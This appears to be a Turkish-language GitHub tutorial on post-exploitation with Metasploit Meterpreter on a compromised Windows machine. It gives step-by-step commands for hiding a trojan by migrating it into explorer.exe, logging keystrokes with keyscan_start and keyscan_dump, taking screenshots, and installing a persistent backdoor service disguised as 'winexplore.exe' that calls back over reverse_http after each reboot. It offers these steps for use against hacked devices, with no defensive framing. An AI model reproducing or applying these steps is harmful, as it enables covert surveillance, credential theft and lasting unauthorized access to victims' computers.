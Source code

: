 
![resim](https://user-images.githubusercontent.com/18248422/175042903-d4c38166-dd6d-4ce5-ae28-71904fc1ad94.png)

Bağlantı (hack) sonrası yapılacaklar

### Migrate (işlem göçü)

  migrate bizim backdoor olarak oluşturduğumuz ve halihazırda çalışan trojanımızı, çalışan başka bir exe içine gömerek trojanımızın gizlenmesini sağlayan bir yöntemdir. Şimdi sızmış olduğumuz bir windows cihazda “ps” komutu ile çalışan programladı listeleyelim;

![resim](https://user-images.githubusercontent.com/18248422/175042942-7016745a-5a74-40e3-b23b-904ac2cb9f8e.png)

 Burada da görüldüğü gibi “PID” yani ilk sütunda olan process id kısmını kullanarak kendi trojanımızı migrate edebileceğiz. 
 Şimdi windows da dosya sistemini görüntülemeye yarayan “explorer.exe” nin PID sini kullanarak migrate yapacağız.

![resim](https://user-images.githubusercontent.com/18248422/175042998-9d824e4a-97d5-47af-8a4a-b456daac5eae.png)

burada ki “2824” “explorer.exe” nin PID si idi ve “migrate 2824” yazıp trojanımızı migrate ettik.

NOT: “migrate” işlemi hacklenen bir cihazda ilk yapılması gerekilen işlemlerden biridir!

### Meterpreter ile Keylogger(keystroke) çalıştırmak

Keylogger yani klavyeden girilen değerleri dinlemek için aşağıda ki komutu kullanarak başlatabiliriz;

![resim](https://user-images.githubusercontent.com/18248422/175043272-49faf1ae-436b-4e85-8fa5-031789ebe777.png)
"keyscan_start" komutu ile keystroke sniffer yani klayvede basılan tuşları takip etmeye başladık. Eğer bu komuttan sonra basılan bütün klayve tuşlarını yani yazılanları görmek istiyorsak aşağıda ki komutu kullanıyoruz;

![resim](https://user-images.githubusercontent.com/18248422/175043298-8c3a2def-1649-4512-a358-9ca72e1bc02c.png)

"keyscan_start" komutu ile başlattıktan sonra hacklenen makinede basılan tüm klavye tuşlarını görmek için resimde de gördüğümüz üzere  “keyscan_dump” yazmamız yeterli.

### Screenshot almak

"screenshot" komutunu yazmamız yeterli.

### Hacklenen Cihazda Kalıcı Hale Gelmek

 Öncelikle hacklediğimiz cihazda açmış olduğumuz session menüsünden bir önceki menüye  “background” komutu ile dönüyoruz.  Geri dönmemizin nedeni payload değiştirecek olmamız, çünkü farklı bir payload kullanacağız.
![resim](https://user-images.githubusercontent.com/18248422/175043511-61ebdfb5-dff8-4650-aad3-a1b1f1920b9e.png)

  Yukarıda da görüldüğü gibi “use exploit/windows/local/persistence” persistence yani türkçe manası ile süreklilik, kalıcılık payload'ını kullanmaya ("use") başlıyoruz. Bu payload bizim trojanımızı bu cihaza service olarak enjekte etmemize yarıyor. Bu sayede hacklenen cihaz bilgisayarını her açıp internete bağlandığında cihaza yeniden erişim sağlayabileceğiz, hatta trojan bulunan exe dosyasını silse bile! Çünkü trojanımızı pc her açıldığında çalışacak şekilde bir service içine enjekte ediyoruz. Böylelikle bu cihazda kalıcı hale gelmiş oluyoruz. 

 Şimdi persistence payload'ının options kısmında bazı değişiklikler yapalım;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043557-203c8969-609c-4195-af9f-d5bc65482135.png)
 
  "set EXE_NAME winexplore.exe" diyerek “winexplore.exe” adında bir service içine trojanımızı enjekte edeceğimizi ayarladık. Burada ki  “winexplore.exe” adını biz verdik, yani herhangi bir isim verebiliriz. Dikkat çekmesin diye  “winexplore.exe” dedik.
 
 Ardından hangi session için bunu yapmak istediğimizi seçiyoruz (o an hangi session da karşı makinaya bağlıysak onun ID'si);
 ![resim](https://user-images.githubusercontent.com/18248422/175043621-41c698e2-bced-43ec-b515-98d27296ac69.png)

 "set SESSION 1" diyerek session kısmını da belirledik.
 
 Eğer istersek custom olarak kendi cihazımızda bulunan kendi oluşturduğumuz trojanı kullanmak istiyorsak bir değişiklik yapmamız gerekir. Bunun için “show advanced” komutu ile aşağıda ki kısmı açıyoruz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043651-f60b8d43-9b08-4a99-9cfc-5b29f1bb3dc9.png)

 ardından yukarıda ki resimde görüldüğü gibi “set EXE::Custom” komutunu kullanıp arından /var/www/html/bacdoors.... (kendi cihazımızda trojanı nereye koyduysak .exe uzantısına kadar yazıyoruz) şeklinde trojanın yerini belirtiyoruz.
 NOT: Bunu yapmakta ki amacımız; eğer bunu yapmazsak sistem kendi oluşturduğu bir default trojan ekler, bizim trojanımızı değil.
 
 Ayarı kontrol etmek için tekrar “show advanced” diyoruz ve;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043692-37626624-1781-432f-a1ff-dd17af77085b.png)

 
 EXE::Custom kısmında gördüğümüz gibi ayarımız geçerli olmuş.
 
 Artık enjekte etmeye hazırız ve “exploit” komutu ile enjekte etmeyi başlatabiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043740-ce51fa99-ac9f-421f-89ad-55e09b92ed2b.png)

 "exploit" komutu sonrası bu şekilde bir ekran gelirse başarılı olmuş demektir. 
 
 
 Bundan sonra artık hangi yöntem ile hacklediysek eriştiysek ona dönebiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043758-8dd47976-c22b-4a92-9fc0-eb5b98fc4b8b.png)

  burda “reverse_http” kullanılmış o yüzden “use exploit/multi/handler” diyip “set PAYLOAD windows/meterpreter/reverse_http” diyip hacklediğimiz payload'a geri dönüyoruz. 
 
  Artık bundan sonra nasılsa önceden exploit ettik üstüne birde persistence kullanarak cihazda kalıcı hale geldiğimize göre, cihaz kapanıp açılsa bile açıldıktan ve internete bağlandıktan 10 saniye sonra (default olarak 10 saniye belirlenmişti istersek onu da değiştirebiliyoruz) reverse_http yöntemi ile oluşturduğumuz trojanımızı, ismini kendimiz belirlediğimiz ve içine kendi trojanımızı enjekte ettiğimiz ("persistence" payloadı ile) bir service (service adına "winexplore.exe" demiştik) sayesinde bizim cihazımıza bağlanacak. 
  
  kaynak: https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/
  
  ![resim](https://user-images.githubusercontent.com/18248422/175043850-63f30f8e-9c7d-49c6-8f30-cbfc50c4bb66.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043879-23c6b837-c028-4634-8904-e2a9c67a0492.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043903-0fd8a40c-82a8-4511-9565-cca5396bfb42.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043922-eb075f16-ad88-462e-af7c-12fb41180ae5.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043959-4fc27dcc-7210-403a-9519-dbdd117b98ca.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043986-c0f65737-8802-4695-807c-b49e2290678e.png)





  
  
  
  
  
  
  
  
  
 
